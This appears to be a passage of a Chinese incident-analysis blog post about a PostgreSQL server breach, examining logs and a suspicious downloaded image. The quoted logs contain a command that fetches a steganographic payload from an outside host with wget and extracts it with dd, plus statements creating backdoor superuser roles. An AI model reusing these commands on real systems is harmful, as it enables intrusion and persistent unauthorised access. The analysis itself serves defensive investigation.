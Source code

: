 ```
 38 --2018-08-05 12:54:27--  http://img1.imagehousing.com/0/cat-497532.png
 39 Resolving img1.imagehousing.com (img1.imagehousing.com)... 104.27.180.36, 104.27.181.36, 2400:cb00:2048:1::681b:b424, ...
 40 Connecting to img1.imagehousing.com (img1.imagehousing.com)|104.27.180.36|:80... connected.
 41 HTTP request sent, awaiting response... 200 OK
 42 Length: 840464 (821K) [image/png]
 43 Saving to: ‘ifzsvasg.jpg’
 44
 45      0K .......... .......... .......... .......... ..........  6% 81.3K 9s
 46     50K .......... .......... .......... .......... .......... 12%  153K 7s
 47    100K .......... .......... .......... .......... .......... 18% 86.2K 7s
 48    150K .......... .......... .......... .......... .......... 24%  635K 5s
 49    200K .......... .......... .......... .......... .......... 30%  138K 4s
 50    250K .......... .......... .......... .......... .......... 36%  139K 4s
 51    300K .......... .......... .......... .......... .......... 42%  146K 4s
 52    350K .......... .......... .......... .......... .......... 48%  176K 3s
 53    400K .......... .......... .......... .......... .......... 54%  194K 3s
 54    450K .......... .......... .......... .......... .......... 60%  189K 2s
 55    500K .......... .......... .......... .......... .......... 67%  179K 2s
 56    550K .......... .......... .......... .......... .......... 73%  178K 1s
 57    600K .......... .......... .......... .......... .......... 79%  187K 1s
 58    650K .......... .......... .......... .......... .......... 85%  191K 1s
 59    700K .......... .......... .......... .......... .......... 91%  132K 0s
 60    750K .......... .......... .......... .......... .......... 97%  202K 0s
 61    800K .......... ..........                                 100%  141K=5.3s
 62
 63 2018-08-05 12:54:33 (154 KB/s) - ‘ifzsvasg.jpg’ saved [840464/840464]
 ...
```

不禁很好奇是怎么做到的，但是又不敢把这两张图片 scp 到本地，于是起了个静态文件 serve 看了下这两张图片表面上看起来竟然是斯嘉丽约翰逊的大头照(流口水!)

![Scalet Jown](http://www.4hou.com/uploads/20180318/1521342249300199.png)

印象里面 jpg/jpeg 图片似乎有种隐写 payload 的方法，早年作为葫芦娃种子来传播，网上查到 metaspolit 的这个[组件](https://github.com/r00t-3xp10it/FakeImageExploiter)似乎可以实现。同时也找到了这个工具 [strgdetext](https://github.com/abeluck/stegdetect) 用来提取图片中的隐写数据，可惜提取出来后仍是一段看不懂二进制码，于是思路阻塞住了。

想到既然需要提取 payload, 那么数据库日志里肯定也有相应代码来做这一步，于是重新翻了下日志，果不其然，发现了真正攻击的这一步在这儿

```
 68 2018-08-05 12:54:34 CST [24806-15] pgsql@postgres LOG:  duration: 6705.657 ms  statement: select fun6404402637('wget  -c   http://img1.imagehousing.com/0/cat-497532.png -O ifzsvasg.jpg;dd  skip=20656  bs=1  if=./ifzsvasg.jpg  of=x4064410502;rm -f ./i#
 69 2018-08-05 12:54:34 CST [24845-1] postgres@postgres FATAL:  password authentication failed for user "postgres"
 70 2018-08-05 12:54:34 CST [24845-2] postgres@postgres DETAIL:  Connection matched pg_hba.conf line 101: "host    all             all              0.0.0.0/0              md5"
 71 2018-08-05 12:54:35 CST [24806-16] pgsql@postgres ERROR:  role "login" already exists
 72 2018-08-05 12:54:35 CST [24806-17] pgsql@postgres STATEMENT:  CREATE ROLE   LOGIN ENCRYPTED PASSWORD 'md51351dbb7fe95c1f277282bc842cb3d6b' SUPERUSER CREATEDB CREATEROLE REPLICATION   VALID UNTIL 'infinity';
 73 2018-08-05 12:54:36 CST [24806-18] pgsql@postgres ERROR:  role "login" already exists
 74 2018-08-05 12:54:36 CST [24806-19] pgsql@postgres STATEMENT:  CREATE ROLE   LOGIN ENCRYPTED PASSWORD 'md51351dbb7fe95c1f277282bc842cb3d6b' SUPERUSER CREATEDB CREATEROLE    VALID UNTIL 'infinity';
 75 2018-08-05 12:54:36 CST [24806-21] pgsql@postgres STATEMENT:  CREATE ROLE pgsql LOGIN ENCRYPTED PASSWORD 'md56413b16b3d0861a1d2538e8d5a5eb39c'  SUPERUSER CREATEDB CREATEROLE    VALID UNTIL 'infinity';
```
